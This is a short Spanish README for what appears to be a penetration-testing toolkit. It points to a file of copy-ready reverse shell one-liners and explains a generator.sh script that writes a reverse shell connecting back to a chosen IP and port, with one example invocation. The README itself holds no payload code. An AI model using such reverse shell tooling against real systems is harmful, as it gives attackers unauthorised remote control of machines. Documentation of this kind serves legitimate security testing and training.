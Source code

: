 # README

## ONE LINERS
El archivo [reverse_shell.md](https://github.com/odbk/jutsus/blob/master/reverse_shell/reverse_shell.md) contiene one-liners para copiado rápido 




## GENERATOR
Con el puedes usar cualquiera de las reverse_shell provistas en reverse_shell.md para generar un archivo con los datos de conexión
hacia tu equipo.

#### USO:

./generator.sh -i IP -p PUERTO -s SHELL_A_USAR -o ARCHIVO_DE_SALIDA

./generator.sh -i *10.10.10.1* -p *1234* -s *pylinux.py* -o *out.py*

*El nombre de shell puede tomarse de la carpeta scripts o bien de [reverse_shell.md](https://github.com/odbk/jutsus/blob/master/reverse_shell/reverse_shell.md) justo antes del código*
